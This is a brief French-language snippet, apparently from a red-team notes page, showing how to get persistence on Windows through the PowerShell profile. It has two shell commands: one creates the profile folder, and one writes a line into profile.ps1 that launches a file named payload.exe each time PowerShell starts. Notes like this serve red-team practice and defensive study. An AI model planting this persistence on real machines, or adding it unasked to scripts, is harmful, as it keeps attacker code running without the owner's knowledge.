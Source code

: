 # PowerShell Profile

Cette technique ne fonctionne pas sur toutes les machines windows.

```sh
mkdir "%HOMEPATH%\Documents\windowspowershell"
```

```sh
echo C:\pers\payload.exe > "%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```
